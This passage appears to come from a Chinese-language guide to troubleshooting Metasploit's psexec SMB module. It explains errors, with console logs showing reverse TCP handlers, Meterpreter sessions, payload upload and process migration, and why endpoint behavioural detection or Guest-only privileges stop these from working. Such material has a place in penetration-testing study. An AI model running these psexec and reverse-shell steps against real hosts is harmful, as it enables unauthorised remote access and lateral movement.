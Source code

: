 ### (22) System Center Endpoint Protection

报错原因：能够正常工作，但是由于目标主机上运行着 System Center Endpoint Protection 并开启着恶意行为检测功能，所以执行成功后也获取不到 Session。

```
msf exploit(windows/smb/psexec) > exploit 

\[\*\] Started reverse TCP handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.109:445 as user 'administrator'...
\[\*\] Selecting PowerShell target
\[\*\] Executing the payload...
\[+\] Service start timed out, OK if running a command or non-service executable...
\[\*\] Sending stage (205891 bytes) to 192.168.1.109
\[\*\] Meterpreter session 1 opened (192.168.1.120:4444 -> 192.168.1.109:49466) at 2018-05-15 06:04:39 +0800

meterpreter > 
\[\*\] Session ID 1 (192.168.1.120:4444 -> 192.168.1.109:49466) processing AutoRunScript 'post/windows/manage/migrate NAME=notepad.exe'
\[\*\] Running module against 123456
\[\*\] Current server process: powershell.exe (4364)
\[\*\] Spawning notepad.exe process to migrate to
\[+\] Migrating to 1192
\[+\] Successfully migrated to process 1192

\[\*\] 192.168.1.109 - Meterpreter session 1 closed.  Reason: Died
```

又或者得到 Session 后立马又给断开了，用进程迁移模块也一样被检测到了，行为检测！

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.103:445|WORKGROUP as user 'Guest'...

\[-\] FAILED! The remote host has only provided us with Guest privileges. Please make sure that the correct username and password have been provided. Windows XP systems that are not part of a domain will only provide Guest privileges to network logins by default.
```

### (23) The remote host has only provided us with Guest privileges. Please make sure that the correct username and password have been provided. Windows XP systems that are not part of a domain will only provide Guest privileges to network logins by default.

报错原因：失败！远程主机仅向我们提供访客权限。请确保提供了正确的用户名和密码。不属于域的 Windows XP 系统默认情况下仅为网络登录提供访客权限。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444 
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.103:445|WORKGROUP as user '90sec'...
\[\*\] Uploading payload...
\[\*\] Created \\ilIfTitm.exe...
\[+\] 192.168.1.103:445 - Service started successfully...
\[\*\] Deleting \\ilIfTitm.exe...
\[-\] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_CANNOT\_DELETE (Command=6 WordCount=0)
```
